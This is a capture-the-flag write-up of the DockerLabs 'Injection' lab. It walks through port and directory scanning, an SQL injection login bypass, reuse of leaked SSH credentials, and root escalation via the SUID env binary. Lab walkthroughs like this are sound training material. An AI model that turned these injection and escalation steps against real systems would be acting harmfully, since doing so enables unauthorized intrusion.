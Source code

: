#Injection DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

We start with a basic nmap scan:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 20:23 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00021s latency).
All 65535 scanned ports on 172.17.0.2 are in ignored states.
Not shown: 65535 closed tcp ports (conn-refused)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.19 seconds

```

We performed a subdomain scan with gobuster to "http://172.17.0.2":

```shell
└─$ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,py,bak        
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,py,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2921]
/config.php           (Status: 200) [Size: 0]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================

```

We enter "http://172.17.0.2/index.php/" and we see that there is a web login.
We tried to bypass it by using the vunerability "sql injection":

```shell
' or 1=1; --
```

![Captura de pantalla 2024-05-14 195628](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/5da299de-f3ce-4ad0-a18f-b7c21ab565af)

We manage to bypass it and see a user "dylan" and a password "KJSDFG789FGSDF78":

![Captura de pantalla 2024-05-14 195654](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/6d613173-33fe-46f4-9d63-420a7895c706)

We enter this data on the ssh server:


```shell                                                                   
└─$ ssh dylan@172.17.0.2                                                                                                  
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

```

We are looking for binaries with permissions SUID

```shell
dylan@37ab85f5f7a7:~$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/chsh
/usr/bin/env
/usr/bin/su
/usr/bin/chfn
/usr/bin/passwd

```

We look for the env binary in "https://gtfobins.github.io/gtfobins/env/".
Execute the web command:

```shell
sudo env /bin/sh
```

```shell
# whoami
root
```
